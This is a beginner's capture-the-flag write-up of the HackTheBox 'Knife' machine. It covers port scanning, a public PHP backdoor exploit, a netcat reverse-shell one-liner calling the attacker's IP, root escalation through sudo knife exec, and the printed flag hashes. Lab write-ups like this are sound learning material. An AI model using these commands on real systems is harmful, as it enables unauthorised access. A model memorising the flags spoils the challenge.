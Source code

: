 This is my second box I will be attempt to pwn on HackTheBox. Let's get into it!

I did an nmap scan of the box's ip. The results showed that ports 22 and 80 were open. Specifically, port 80 was being used for an Apache web server. This is probably te best lead to go on.

        22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
        80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))

I navigated to the web server and was greeted by an apparent medical site for a company called EMA. The web site was very bare bones. In fact, nothing on the web page was interactable.

I was at a lost at what to do, so I did some googling and learned about gobuster. It's a package that attempts directory traversal through a wordlist. The exact command I used was: 

                gobuster dir -u 10.10.10.242 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 50 -x txt
                
I found that /server-status was a valid directory, but I didn't have permissions to access it. Directory enumeration ended up to be a dead end.


Next, I decided to take a look at the web server using inspect element. By looking at the header of 10.10.10.242 in the network tab, I was able to see that the website was being powered by PHP/8.1.0-dev.
I searched for exploits regarding that PHP version and came across this: https://www.exploit-db.com/exploits/49933. Pretty sick find.

After running the code, I got a shell. I ran "id" and found that I was logged in as a user named "james". I ran the "ls" command and saw listed directories. I tried to navgate through the directories but that didn't work. However, other commands seemed to be working fine. I decided to use a reverse shell to see if that would allow me to traverse through directories.

I looked at this website: https://pentestbook.six2dez.com/exploitation/reverse-shells for commands that can be used to create reverse shells. I used the first command underneath the bash section: rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.16.57 1337 >/tmp/f and generated a reverse shell.

The reverse shell allowed me to navigate through the directories! I went to /home/james and saw a file called user.txt. That's the first flag: 17c3bb751e9961c0cbc0e1de916a4bd9

Now I had to do some privesc to get root. I tried sudo -l and saw this pop up:
User james may run the following commands on knife:
        
        (root) NOPASSWD: /usr/bin/knife

I ran knife -h to see what the available options were, but I didn't expect the help page to be so massive. A command that caught my eye was "knife exec". According to the knife documentation (https://docs.chef.io/workstation/knife_exec/), this command is able to run Ruby scripts. The syntax for running Ruby scripts is: 

                knife exec -E 'RUBY CODE'

I tried to figure out how to use Ruby to elevate privileges, but was not able to grasp most of it. I am still very new to scripting! I decided to change tactics.

I decided to go on gtfobins.github.io. This site is really nifty as it provides a massive amount of ways to use binaries to escalate priviliges. I searched up knife and found this code:

                sudo knife exec -E 'exec "/bin/sh"'
                
Since this knife binary is able to be run as sudo by james, this command makes it so that the sudo privileges are not dropped after running the command, essentially granting root access. 

After running the command, I ran "whoami" and saw that I was now the root user. I navigated to the root folder and got the root.txt hash: 449e1149cf6e5a01d86acfe53a80780d.

Overall, I can see why this box had a difficult rating of "easy." While attempting to solve the box, I got stuck in many places because I wasn't sure what exactly I was supposed to be looking for. However, now that I am familiar with the process, I can see how each of the steps from attaining a foothold to escalating privileges make a lot of sense.
